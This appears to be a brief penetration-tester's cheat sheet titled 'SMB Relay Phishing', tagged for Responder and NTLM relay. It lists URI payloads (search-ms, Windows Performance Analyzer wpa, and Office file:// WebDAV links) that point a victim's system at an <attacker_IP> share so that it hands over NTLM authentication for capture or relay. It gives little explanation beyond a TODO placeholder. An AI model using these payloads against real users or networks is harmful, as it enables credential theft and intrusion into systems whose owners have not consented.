 # SMB Relay Phishing

Search Tag(s): #mitm #responder #smb #relay #ntlm #phishing

TODO: Fill this info

## 01 - MSQuery

```
search-ms://query=<anything>&subquery=\\<attacker_IP>\<anything>.search-ms

search-ms://query=<anything>&crumb=location:\\<attacker_IP>\<anything>
```

## 02 - Windows Performance Analyzer

```
wpa:////<attacker_IP>/<anything>
```

## 03 - LibreOffice and Microsoft Office

WebDAV link.

```
file://<attacker_IP>/snare
```
